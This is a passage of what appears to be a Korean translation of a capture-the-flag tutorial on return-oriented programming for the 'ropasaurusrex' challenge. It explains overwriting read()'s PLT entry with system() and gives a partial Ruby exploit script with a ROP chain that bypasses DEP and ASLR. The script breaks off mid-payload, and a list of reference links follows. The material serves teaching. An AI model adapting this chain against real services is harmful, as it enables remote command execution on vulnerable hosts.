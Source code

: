 ``` sh
(gdb) x/i 0x0804832C
0x804832c <read@plt>:   jmp    DWORD PTR ds:0x804961c
```

`read()`는 사실 간접적인 점프로 구현되어 있다! 그러니 `ds:0x804961c`의 값이 무엇이든 이걸 바꿔도 그리로 점프하게 되고, 결국 우린 어디로든 점프할 수 있게 된다! 그래서 프레임 [3]에서 메모리로부터 주소를 읽고 (`read()`의 실제 주소를 얻기 위해) 프레임 [5]에서 그 주소에 새 주소를 쓰는 것이다.

프레임 [6]은 표준적인 `pop/pop/pop/ret` 구조지만 약간 다르다: `pop/pop/pop/ret`의 반환 주소가 실제론 `read()`의 `.plt` 엔트리인 `0x804832c`다. `read()`의 `.plt` 엔트리를 `system()`으로 덮어쓰기 때문에, 이 호출은 실제로 `system()`으로 가게 된다!

## <a id="final-code"></a>최종 코드

휴! 꽤 복잡했다. DEP와 ASLR을 모두 우회하며 ropasaurusrex의 익스플로잇을 모두 구현한 코드다:

``` ruby
require 'socket'

s = TCPSocket.new("localhost", 4444)

# The command we'll run
cmd = ARGV[0] + "\0"

# From objdump -x
buf = 0x08049530

# From objdump -D ./ropasaurusrex | grep read
read_addr = 0x0804832C
# From objdump -D ./ropasaurusrex | grep write
write_addr = 0x0804830C
# From gdb, "x/x system"
system_addr = 0xb7ec2450
# Fram objdump, "pop/pop/pop/ret"
pppr_addr = 0x080484b6

# The location where read()'s .plt entry is
read_addr_ptr = 0x0804961c

# The difference between read() and system()
# Calculated as  read (0xb7f48110) - system (0xb7ec2450)
# Note: This is the one number that needs to be calculated using the
# target version of libc rather than my own!
read_system_diff = 0x85cc0

# Generate the payload
payload = "A"*140 +
  [
    # system()'s stack frame
    buf,         # writable memory (cmd buf)
    0x44444444,  # system()'s return address

    # pop/pop/pop/ret's stack frame
    # Note that this calls read_addr, which is overwritten by a pointer
    # to system() in the previous stack frame
    read_addr,   # (this will become system())

    # second read()'s stack frame
    # This reads the address of system() from the socket and overwrites
    # read()'s .plt entry with it, so calls to read() end up going to
    # system()
    4,           # length of an address
    read_addr_ptr, # address of read()'s .plt entry
    0,           # stdin
    pppr_addr,   # read()'s return address

```

[SkullSecurity]: https://blog.skullsecurity.org
[Ron Bowes]: https://blog.skullsecurity.org/author/ron
[external-url]: https://blog.skullsecurity.org/2013/ropasaurusrex-a-primer-on-return-oriented-programming
[hindsight]: http://knowyourmeme.com/memes/captain-hindsight
[cnot]: https://blog.skullsecurity.org/blog/2013/epic-cnot-writeup-plaidctf
[ASLR]: https://en.wikipedia.org/wiki/Address_space_layout_randomization
[ROP]: https://en.wikipedia.org/wiki/Return-oriented_programming
[my writeup of cnot]: https://blog.skullsecurity.org/blog/2013/epic-cnot-writeup-plaidctf
[return into libc]: https://en.wikipedia.org/wiki/Return-to-libc_attack
[DEP]: https://en.wikipedia.org/wiki/Data_Execution_Prevention
[return]: https://en.wikipedia.org/wiki/Return_statement
[stack]: https://en.wikipedia.org/wiki/Call_stack
[my assembly tutorial]: https://blog.skullsecurity.org/wiki/index.php/The_Stack
[^1]: 링크가 [바뀌었다](https://wiki.skullsecurity.org/Assembly).
[Stack overflows]: https://en.wikipedia.org/wiki/Stack_overflow
[removed by the calling function]: https://en.wikipedia.org/wiki/X86_calling_conventions#cdecl
[except when they're not]: https://en.wikipedia.org/wiki/X86_calling_conventions#stdcall
[Book of Intel]: http://www.intel.com/content/www/us/en/processors/architectures-software-developer-manuals.html
[little endian]: https://en.wikipedia.org/wiki/Endianness
[0]: https://en.wikipedia.org/wiki/Zero_page
[pattern_create.rb]: https://github.com/rapid7/metasploit-framework/blob/master/tools/pattern_create.rb
[pattern_offset.rb]: https://github.com/rapid7/metasploit-framework/blob/master/tools/pattern_offset.rb
[xinetd]: https://en.wikipedia.org/wiki/Xinetd
[netcat]: https://en.wikipedia.org/wiki/Netcat
[libc]: https://en.wikipedia.org/wiki/C_standard_library
[stdin and stdout]: https://en.wikipedia.org/wiki/Standard_streams
[socket]: https://en.wikipedia.org/wiki/Network_socket
[.data]: https://en.wikipedia.org/wiki/Data_segment
[core dump]: https://en.wikipedia.org/wiki/Core_dump